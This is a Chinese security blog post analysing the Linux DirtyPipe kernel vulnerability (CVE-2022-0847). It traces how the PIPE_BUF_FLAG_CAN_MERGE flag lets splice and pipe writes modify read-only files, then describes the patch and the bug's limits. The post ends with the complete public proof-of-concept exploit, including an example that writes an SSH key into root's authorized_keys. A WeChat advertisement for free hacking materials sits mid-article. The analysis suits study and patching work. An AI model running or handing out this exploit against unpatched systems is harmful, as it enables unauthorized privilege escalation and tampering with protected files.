



# DirtyPipe（CVE-2022-0847）漏洞分析 - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/17011702.html`](https://www.cnblogs.com/hetianlab/p/17011702.html)

# 前言

`CVE-2022-0847 DirtyPipe`脏管道漏洞是`Linux`内核中的一个漏洞，该漏洞允许写只读文件，从而导致提权。

# 调试环境

*   `ubuntu 20.04`

*   `Linux-5.16.10`

*   `qemu-system-x86_64 4.2.1`

# 漏洞验证

首先创建一个只读文件`foo.txt`，并且正常情况下是无法修改该可读文件，但是利用了`DirtyPipe`漏洞后发现可以将字符`aaaa`写入到只读文件中


# 漏洞分析

以`poc`作为切入点，分析漏洞成因

首先`poc`创建了一个管道，管道缓冲区的默认大小为 4096，并且拥有 16 个缓存区，因此再创建管道之后，`poc`首先要做的是将这 16 个管道缓冲区填满。

```
... if (pipe(p)) abort();
​ const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ); static char buffer[4096];
​ for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        write(p[1], buffer, n);
        r -= n;
    }
...
```

在进行管道写的操作时，内核是采用`pipe_write`函数进行操作，这里截取了关键部分，在进行管道写的时候会判断通过函数`is_packetized`去判断是否为目录属性，如果不是则将缓冲区的标志位设置为`PIPE_BUF_FLAG_CAN_MERGE`，这个标志位非常关键，是导致漏洞成因，因此`poc`为了使 16 个管道缓冲区都设置`PIPE_BUF_FLAG_CAN_MERGE`标志位，因此选择循环 16 次， 并且将每个管道缓冲区都写满。



随着`poc`将管道内的数据全部读出，为了清空管道缓冲区，在进行管道读的过程中，内核采用的是`pipe_read`函数，在整个管道读的过程中是不会修改管道的标志位的，因此`PIPE_BUF_FLAG_CAN_MEGE`标志位依旧存在

```
... for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        read(p[0], buffer, n);
        r -= n;
    }
...
```

紧接着是触发漏洞的关键函数，`splice`函数，用于移动数据，此时`fd`指向我们想读取的文件，对应上述的`foo.txt`只读文件，p[1]指向的是我们的管道符。

```
...
ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
...
```

【----帮助网安学习，以下所有学习资料免费领！加 vx：yj009991，备注 “博客园” 获取！】

　① 网安学习成长路径思维导图
　② 60+网安经典常用工具包
　③ 100+SRC 漏洞分析报告
　④ 150+网安攻防实战技术电子书
　⑤ 最权威 CISSP 认证考试指南+题库
　⑥ 超 1800 页 CTF 实战技巧手册
　⑦ 最新网安大厂面试题合集（含答案）
　⑧ APP 客户端安全检测指南（安卓+IOS）

在调用`splice`函数时，内核在某个阶段会调用`copy_page_to_iter`函数，可以看到当管道满了之后就没办法通过`splice`函数往管道内继续输入数据，那么`splice`函数就无法正常执行了，因此需要清空管道内的数据。



后面则到达了漏洞发生的代码，由于我们使用`splice`函数进行数据的移动，在内核中不是选择将数据直接从文件中拷贝到管道中，而是将文件所在的物理页直接赋值给管道缓冲区所对应的页面。


这里记录一下物理页的地址


最后就是再次调用管道写的操作，但是这里实际会写入只读文件内部

```
...
nbytes = write(p[1], data, data_size);
...
```

由于已经通过`splice`函数移动数据到管道缓冲区古内部了，因此管道不为空会进入到`455`行的内部处理逻辑


最终到达了往只读文件写入的操作，这里看到了`PIPE_BUF_FLAG_CAN_MERGE`这个标志位的作用，该标志位就是会将数据合并，使得后续管道写的操作会继续向之前的管道缓冲区对应的物理页面继续写入，写入的操作是通过`copy_page_from_iter(buf->page,offset,chars,from)`函数进行完成的，该函数实际就是将`from`对应的数据写入到`buf->page`中


可以看到`buf->page`与`page`地址是完全一样的，这就导致我们将数据写入修改到`foo.txt`文件中


# 补丁

补丁页比较简单，在获取物理页的同时把管道缓冲区的标志位清空，就不会导致后面对管道进行写操作的时候进入合并数据流的流程



# 总结

`DirtyPipe`**攻击流程**

*   将所有管道缓冲区都设置`PIPE_BUF_FLAG_CAN_MERGE`标志位

*   清空管道缓冲区

*   使用`splice`函数获取文件所对应的物理页

*   使用`pipe_write`函数对拥有`PIPE_BUF_FLAG_CAN_MERGE`标志位的处理，对获得文件对应的物理页进行写入操作，从而达到对只读文件写入的操作

`DirtyPipe`**利用的限制**

*   对文件有读权限，因为`splice`函数会首先判断对文件是否有可读权限，若无则无法正常执行

*   由于`DirtyPipe`是对文件对应的物理做覆写操作，因此不能修改超过文件本身大小的数据，以及文件的第一个字节无法被修改（因为`splice`函数需要移动至少一字节数据）

*   由于`DirtyPipe`是对物理页进行修改，因此修改数据大小也不能超过一页

# 完整的 poc

```
/* SPDX-License-Identifier: GPL-2.0 */
/* * Copyright 2022 CM4all GmbH / IONOS SE
 *
 * author: Max Kellermann <max.kellermann@ionos.com>
 *
 * Proof-of-concept exploit for the Dirty Pipe
 * vulnerability (CVE-2022-0847) caused by an uninitialized
 * "pipe_buffer.flags" variable.  It demonstrates how to overwrite any
 * file contents in the page cache, even if the file is not permitted
 * to be written, immutable or on a read-only mount.
 *
 * This exploit requires Linux 5.8 or later; the code path was made
 * reachable by commit f6dd975583bd ("pipe: merge
 * anon_pipe_buf*_ops").  The commit did not introduce the bug, it was
 * there before, it just provided an easy way to exploit it.
 *
 * There are two major limitations of this exploit: the offset cannot
 * be on a page boundary (it needs to write one byte before the offset
 * to add a reference to this page to the pipe), and the write cannot
 * cross a page boundary.
 *
 * Example: ./write_anything /root/.ssh/authorized_keys 1 $'\nssh-ed25519 AAA......\n'
 *
 * Further explanation: https://dirtypipe.cm4all.com/
 */ ​ #define _GNU_SOURCE #include <unistd.h> #include <fcntl.h> #include <stdio.h> #include <stdlib.h> #include <string.h> #include <sys/stat.h> #include <sys/user.h> ​
#ifndef PAGE_SIZE #define PAGE_SIZE 4096
#endif ​ /**
 * Create a pipe where all "bufs" on the pipe_inode_info ring have the
 * PIPE_BUF_FLAG_CAN_MERGE flag set. */
static void prepare_pipe(int p[2])
{ if (pipe(p)) abort();
​ const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ); static char buffer[4096];
​ /* fill the pipe completely; each pipe_buffer will now have
       the PIPE_BUF_FLAG_CAN_MERGE flag */
    for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        write(p[1], buffer, n);
        r -= n;
    }
​ /* drain the pipe, freeing all pipe_buffer instances (but
       leaving the flags initialized) */
    for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        read(p[0], buffer, n);
        r -= n;
    }
​ /* the pipe is now empty, and if somebody adds a new
       pipe_buffer without initializing its "flags", the buffer
       will be mergeable */ }
​ int main(int argc, char **argv)
{ if (argc != 4) {
        fprintf(stderr, "Usage: %s TARGETFILE OFFSET DATA\n", argv[0]); return EXIT_FAILURE;
    }
​ /* dumb command-line argument parser */
    const char *const path = argv[1];
    loff_t offset = strtoul(argv[2], NULL, 0); const char *const data = argv[3]; const size_t data_size = strlen(data);
​ if (offset % PAGE_SIZE == 0) {
        fprintf(stderr, "Sorry, cannot start writing at a page boundary\n"); return EXIT_FAILURE;
    }
​ const loff_t next_page = (offset | (PAGE_SIZE - 1)) + 1; const loff_t end_offset = offset + (loff_t)data_size; if (end_offset > next_page) {
        fprintf(stderr, "Sorry, cannot write across a page boundary\n"); return EXIT_FAILURE;
    }
​ /* open the input file and validate the specified offset */
    const int fd = open(path, O_RDONLY); // yes, read-only! :-)
    if (fd < 0) {
        perror("open failed"); return EXIT_FAILURE;
    }
​ struct stat st; if (fstat(fd, &st)) {
        perror("stat failed"); return EXIT_FAILURE;
    }
​ if (offset > st.st_size) {
        fprintf(stderr, "Offset is not inside the file\n"); return EXIT_FAILURE;
    }
​ if (end_offset > st.st_size) {
        fprintf(stderr, "Sorry, cannot enlarge the file\n"); return EXIT_FAILURE;
    }
​ /* create the pipe with all flags initialized with
       PIPE_BUF_FLAG_CAN_MERGE */
    int p[2];
    prepare_pipe(p);
​ /* splice one byte from before the specified offset into the
       pipe; this will add a reference to the page cache, but
       since copy_page_to_iter_pipe() does not initialize the
       "flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
    --offset;
    ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0); if (nbytes < 0) {
perror("splice failed"); return EXIT_FAILURE;
    } if (nbytes == 0) {
fprintf(stderr, "short splice\n"); return EXIT_FAILURE;
    }
​ /* the following write will not create a new pipe_buffer, but
       will instead write into the page cache, because of the
       PIPE_BUF_FLAG_CAN_MERGE flag */ nbytes = write(p[1], data, data_size); if (nbytes < 0) {
perror("write failed"); return EXIT_FAILURE;
    } if ((size_t)nbytes < data_size) {
fprintf(stderr, "short write\n"); return EXIT_FAILURE;
    }
​
printf("It worked!\n"); return EXIT_SUCCESS;
}
```

******更多靶场实验练习、网安学习资料，[请点击这里>>](https://www.hetianlab.com/)******